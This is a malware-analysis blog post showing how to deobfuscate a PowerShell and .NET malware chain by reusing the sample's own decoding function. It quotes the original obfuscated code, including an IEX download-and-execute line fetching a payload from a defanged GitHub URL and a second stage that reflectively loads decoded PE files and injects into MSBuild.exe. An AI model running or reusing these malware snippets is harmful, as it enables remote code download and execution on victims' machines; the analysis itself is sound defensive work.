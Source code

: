 ```yaml
---
layout: post
title: "Smarter, Not Harder: Getting Malware to Help You Analyze It"
date: 2021-09-05
categories: Malware
tags: windows malware deobfuscation powershell .net
permalink: /smarter-not-harder-malware-analysis/
---
```


When analyzing even non-advanced malware nowadays it's common to find pretty heavy levels of obfuscation within samples. PowerShell and .NET malware for Windows can be obfuscated easily using various packers/crypters or script obfuscation tools. If you know how to manipulate the malware code, however, you can use the deobfuscation capabilities of malware to reveal unpacked samples.

## Newton's Third Law (of Malware)

If you've studied Physics you've likely run across Newton's Third Law of Motion: "For every action, there is an equal and opposite reaction." The same law can be applied to obfuscated malware. When at rest or during transmission, adversaries may encrypt or encode malicious code to avoid static signatures. During execution, though, the encoding or encryption must be removed so the code can successfully load and execute.

To facilitate this process, adversaries commonly include algorithms within obfuscated code designed to remove the obfuscation at runtime. If you can focus on how the algorithm is called and used, you can use it for your own purposes!

## Safety First!

This exercise in deobfuscation requires us to execute portions of code from malware. We're not performing dynamic analysis, but there is the possibility that we might accidentally execute some malicious code. To protect against this possibility, use a virtual machine for analysis. Prior to analysis, remove any network connections and shared folders before taking a snapshot and beginning to work.

During analysis we want to identify any code designed to interpret, invoke, or execute commands so we can comment them out. We only want to execute commands designed to manipulate data and write data to files.

## A Simple Example to Start

An excellent example of using the malware code against itself can be found with this sample: <https://www.virustotal.com/gui/file/578f5dba1af809ee5b492582c38c5cf6e8bd1319fe91cc2cb0fb6066ca3c1eb9/>. This sample leads to the execution of a second sample that is more complex which we can also work with.

The original code for this sample appears similar to this:

```powershell
$1 = 'Net'+'.@@@@@@@@@@@@@$$$$$$$$$$$$$$$$$>>>>>>>>>>>>>t'.Replace('@@@@@@@@@@@@@$$$$$$$$$$$$$$$$$>>>>>>>>>>>>>',''+'Webc'+'lien')

$2 = '>>>>>>>>>>>>>>>>>>~~~~~~~~~~~~~~~~~~okE'.Replace('>>>>>>>>>>>>>>>>>>~~~~~~~~~~~~~~~~~~','InV')
$3 = 'D'+'o'+'w'+'n'+'l'+'o'+'a'+'d'+'s'+'tri'+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+'n'+'g'

I`EX((n`e`W`-Obj`E`c`T (($1))).(($3)).$2((('hxxps://raw.githubusercontent[.]com/az3r12/NYAN/main/Server.jpg')))).Replace('ooooiiiiiiiiiijhgfghjiugghjllknfderrthbbvccdssgvhhgoooooo','ForEach-Object {( [Convert]::ToInt16(([String]$_), 8) -As[Char])});sal g $t0').Replace('rxectfyvhgbuyhnikjmmnubyvbgvfcttyghuytvcxetcryvtubyjnhbgvfcdrctvuybvcrxrtyuubvtrcex','[Parameter(Mandatory=$true)] [String]$HLH').Replace('trdyjtuybiuyminubyvtcrytvybunibuyvtcrxtcytvuybiubihugyftuyiuo','New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)').Replace('fyyfbyfyfjyfjvyhtftdvbytdvtftfbfbytf','[Convert]::ToByte($HLH.Substring($i, 2), 16)').Replace('trcymtuvybiuyvtcrtcytuyiubyvtcw4gh5djf6g7nbfvdrcsxetcrdytfbygyvcdr','{').Replace('yuuuuuuuuuuuuuuuuvgggggggggggxddddddddddzswvttttttttt','(').Replace('mbappebgfvnjjhffgjjufghiolmgfd mbappe',')')
```

In this example, the first three variables contain substrings of `Net.Webclient.DownloadString` obfuscated using string replacement and a string broken up into individual characters. This indicates PowerShell will download something from a URL. Later in the code there is a URL, so we can reasonably assume the code will download something from it. At the beginning of the final line, an `IEX` statement is slightly obfuscated using a single character. `IEX` is shorthand for `Invoke-Expression` in PowerShell, and we can assume it will execute any code downloaded from the URL.

After the `IEX` there are loads of `.Replace()` function calls. This is where the adversary manipulates data in their next stage of the chain. Presumably whatever gets executed will have junk code inside, but the junk code is replaced by real, useful code before execution. Once we retrieve the next stage into a text file, we can deobfuscate it using this code:

```powershell
$obfuscated_script = Get-Content ./Server.jpg

$deobfuscated_script = $obfuscated_script.Replace('ooooiiiiiiiiiijhgfghjiugghjllknfderrthbbvccdssgvhhgoooooo','ForEach-Object {( [Convert]::ToInt16(([String]$_), 8) -As[Char])});sal g $t0').Replace('rxectfyvhgbuyhnikjmmnubyvbgvfcttyghuytvcxetcryvtubyjnhbgvfcdrctvuybvcrxrtyuubvtrcex','[Parameter(Mandatory=$true)] [String]$HLH').Replace('trdyjtuybiuyminubyvtcrytvybunibuyvtcrxtcytvuybiubihugyftuyiuo','New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)').Replace('fyyfbyfyfjyfjvyhtftdvbytdvtftfbfbytf','[Convert]::ToByte($HLH.Substring($i, 2), 16)').Replace('trcymtuvybiuyvtcrtcytuyiubyvtcw4gh5djf6g7nbfvdrcsxetcrdytfbygyvcdr','{').Replace('yuuuuuuuuuuuuuuuuvgggggggggggxddddddddddzswvttttttttt','(').Replace('mbappebgfvnjjhffgjjufghiolmgfd mbappe',')')

Set-Content -Path ./deobfuscated_Server.jpg.ps1 -Value $deobfuscated_script
```

In this particular case we reused the `.Replace()` function calls to make all the deobfuscation happen automatically rather than doing a manual find and replace operation for each one. This sort of efficiency can add up to a lot of saved time during analysis.

## Getting More Complex

The next stage in the chain looks something like this (except with much more hex content):

```powershell
$b1 = "111"
$b2 = "105"
$b3 = "130"
$b4 = "[String]" ; $t0=-Join (($b1, $b2, $b3  )| ForEach-Object {( [Convert]::ToInt16(([String]$_), 8) -As[Char])});sal g $t0

$b4=$TC = "4D5A9\/\/\/\/3...".replace('\/','0' )

Function HBankers {
 
    [CmdletBinding( )]
    [OutputType([byte[]] )]
    param(
        [Parameter(Mandatory=$true)] [String]$HLH 
     )
    $HHPPLL = New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)
    for ($i = 0; $i -lt $HLH.Length; $i += 2 ) {
        $HHPPLL[$i / 2] = [Convert]::ToByte($HLH.Substring($i, 2), 16)
    }

    return [byte[]]$HHPPLL
}

[String]$HL = '4D5A9\/\/\/\/3...'.replace('\/','0' )
  
$A1 = "Ge>>>>>>>>>>>>>>>..............>>>>>>>>>>od".Replace('>>>>>>>>>>>>>>>..............>>>>>>>>>>','tMeth' )
$A2 = "g!!!!!!!!!!!!!@@@@@@@@@@@@@@@@################in".Replace('!!!!!!!!!!!!!@@@@@@@@@@@@@@@@################','et_CurrentDoma' )
$A3 = "I@@@@@@@@@@@@@@@>>>>>>>>>>>>>>..!!!!!!!!!!!!!!!!!!!!!!e".Replace('@@@@@@@@@@@@@@@>>>>>>>>>>>>>>..!!!!!!!!!!!!!!!!!!!!!!','nvok' )
$A4 = "Lo!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!".Replace('!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!','ad' )
$a7 = "$null"
$a5 = '[S!!!!!!!!!!!!!!@@@@@@@@@@@@@@!!!!!!!!!!!!!!!!^^^^^^^^^^^^^in]'.Replace('!!!!!!!!!!!!!!@@@@@@@@@@@@@@!!!!!!!!!!!!!!!!^^^^^^^^^^^^^','ystem.AppDoma' ) | g ; $a5.$A1($A2 ).$A3($a7,$null ).$A4([Byte[]](HBankers ($HL  ) ) )| g
$a8 = 'MS>>>>>>>>>>>>>.........e'.Replace('>>>>>>>>>>>>>.........','Build.ex' )

[Byte[]]$HH= HBankers $TC

[rerup]::qw5f0($a8,$HH )
```

There's a lot of fun obfuscation in this step of the chain, but I want to focus on two particular components: the hex strings starting with `4D5A`. The `4D5A` represents a traditional Windows PE header bytes that gets represented as `MZ` in ASCII. The script is shortened in this post for brevity, but examining it in [VirusTotal](https://www.virustotal.com/gui/file/ada2cd99438e9b05b8ed89dc36d4547f90436f5ef6fda2ece3c97b70b90d8bab) will show the sample contains almost 200KB of encoded text. In addition, we can see there are two `Byte[]` array structures used by the code. We can hypothesize that the two hex strings decode into Windows PE files that will eventually be held inside those byte arrays. Now, how can we make that happen?

In both the `Byte[]` array statements, the adversary references the function `HBankers()`. In addition, the declaration for this function shows it takes string input and outputs a byte array. We can reasonably assume this function performs deobfuscation, so let's use it to our advantage! We can use portions of the malware in our own script here:

```powershell
[String]$TC = "4D5A9\/\/\/\/3...".replace('\/','0' )
[String]$HL = '4D5A9\/\/\/\/3...'.replace('\/','0' )

Function HBankers {
 
    [CmdletBinding( )]
    [OutputType([byte[]] )]
    param(
        [Parameter(Mandatory=$true)] [String]$HLH 
     )
    $HHPPLL = New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)
    for ($i = 0; $i -lt $HLH.Length; $i += 2 ) {
        $HHPPLL[$i / 2] = [Convert]::ToByte($HLH.Substring($i, 2), 16)
    }

    return [byte[]]$HHPPLL
}

[Byte[]]$deobfuscated_bin_1 = HBankers $TC
[Byte[]]$deobfuscated_bin_2 = HBankers $HL

Set-Content -Path deobfuscated_1.bin -Value $deobfuscated_bin_1 -AsByteStream
Set-Content -Path deobfuscated_2.bin -Value $deobfuscated_bin_2 -AsByteStream
```

Now we can execute the script and then take a look at the files that get created:

```text
PS /home/psyrun/NYAN> file *.bin
deobfuscated_1.bin: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
deobfuscated_2.bin: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

And just like that, we have the PE binary payloads for additional analysis! The `HBanker()` function contained everything we needed to output a byte array into a variable, and `Set-Content` provided means for us to write that byte array to disk. Now that we have the files, we can continue analysis in the near future.